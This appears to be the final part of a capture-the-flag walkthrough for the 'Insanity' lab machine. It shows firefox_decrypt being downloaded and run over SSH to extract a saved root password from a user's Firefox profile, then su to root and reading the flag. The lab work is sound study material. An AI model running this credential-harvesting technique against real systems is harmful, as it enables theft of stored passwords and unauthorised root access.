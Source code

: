 -  wget [https://github.com/unode/firefox_decrypt/archive/refs/tags/0.7.0.zip](#https://github.com/unode/firefox_decrypt/archive/refs/tags/0.7.0.zip)

-  send firefox\_decrypt to target machine
**
in SSH**
-  \[elliot@insanityhosting firefox\]$ python firefox\_decrypt\.py 
Select the Firefox profile you wish to decrypt
1 \-\> wqqe31s0\.default
2 \-\> esmhp32w\.default\-default
2

Master Password for profile /home/elliot/\.mozilla/firefox/esmhp32w\.default\-default: 
2024\-02\-09 02:02:02,184 \- WARNING \- Attempting decryption with no Master Password

Website:   [https://localhost:10000](#https://localhost:10000)

Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
\[elliot@insanityhosting firefox\]$ su root
Password: 
\[root@insanityhosting firefox\]# id
uid=0\(root\) gid=0\(root\) groups=0\(root\)
\[root@insanityhosting firefox\]# cat flag\.txt 
\_\_\_\_                       \_ \_\_       
/  \_/\_\_\_  \_\_\_\_\_\_\_\_\_ \_\_\_\_\_  \(\_\) /\_\_\_  \_\_
/ // \_\_ \\/ \_\_\_/ \_\_ \`/ \_\_ \\/ / \_\_/ / / /
\_/ // / / \(\_\_  \) /\_/ / / / / / /\_/ /\_/ / 
/\_\_\_/\_/ /\_/\_\_\_\_/\\\_\_,\_/\_/ /\_/\_/\\\_\_/\\\_\_, /  
/\_\_\_\_/   

Well done for completing Insanity\. I want to know how difficult you found this \- let me know on my blog here: https://security\.caerdydd\.wales/insanity\-ctf/

